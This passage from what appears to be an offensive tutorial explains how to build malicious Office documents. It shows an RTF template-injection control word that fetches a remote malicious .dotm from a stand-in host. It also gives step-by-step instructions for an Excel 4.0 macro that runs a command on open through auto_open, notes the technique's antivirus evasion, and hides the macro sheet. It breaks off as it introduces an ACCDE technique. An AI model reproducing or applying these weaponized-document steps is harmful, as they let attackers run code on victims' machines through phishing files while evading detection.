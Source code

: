 
After saving it, open the RTF file with text editor. Then put the below control word `template` in the RTF.
```
{\*\template http://malware.domain/malicious-template.dotm}
```

![image](https://user-images.githubusercontent.com/56353946/203395676-0d75923d-fade-4501-aa93-1070af618229.png)

Upon opening the RTF file, it will fetch the content (template) from malicious-template.dotm at hxxp://malware.domain, load the template and then make the malicious code execution:
![image](https://user-images.githubusercontent.com/56353946/203395073-ca1691d3-17d7-4327-8cff-bbddb449b744.png)

# Excel4Macro

Excel 4.0 macros which also known as XLM macros. Excel 4.0 macro can be difficult to analyse and detected by AV.

First step, create a new Excel workbook. Right click `Sheet1` at the bottom of the Excel and choose `Insert`:
![image](https://user-images.githubusercontent.com/56353946/203395962-f5edf494-a97b-44ed-b9aa-1fd97860aed2.png)

A windows box will pop-up that allow us to choose which object we want to insert. Select `MS Excel 4.0 Macro` and click OK:
![image](https://user-images.githubusercontent.com/56353946/203396087-fb2cbe7d-afe2-446f-ae02-d6e1fde94fa0.png)

From here, let's start to write our own macro. Click on any cell and type the formulas shown in below picture:
![image](https://user-images.githubusercontent.com/56353946/203396234-11ab9e7e-6285-4cd2-b3b2-7a6df7204571.png)

```
=EXEC("calc.exe")
=ALERT("Excel 4.0 Macro executed")
=RETURN()
```

On the name box at the top left, fill in `auto_open` to make our Excel 4.0 macro execute automatically when the workbook document is opened. It is similar to `Sub AutoOpen()` for VBA macros.

Also, we can hide our macro sheet by right click on the `Macro1` tab and select `hidden`:
![image](https://user-images.githubusercontent.com/56353946/203396444-dcdac9cb-5f2e-42ff-b003-ba831e866af1.png)

Our macro sheet will be gone from the sight:

![image](https://user-images.githubusercontent.com/56353946/203396509-9b121d35-fcf8-49b6-bf47-2f61d131ecca.png)

Save the malicious document either as .xls or .xlsm format. Once user open the workbook and click `Enable Content`, our XLM macro will be execute successfully:
![image](https://user-images.githubusercontent.com/56353946/203396656-322ac92c-5d12-4ef4-a962-7361da4df6bc.png)

# ACCDE executable
This technique was a rare case and I found that there is no public research yet related to this technique. I found this methodology was used by an attacker of my client during my analysis and investigation. 
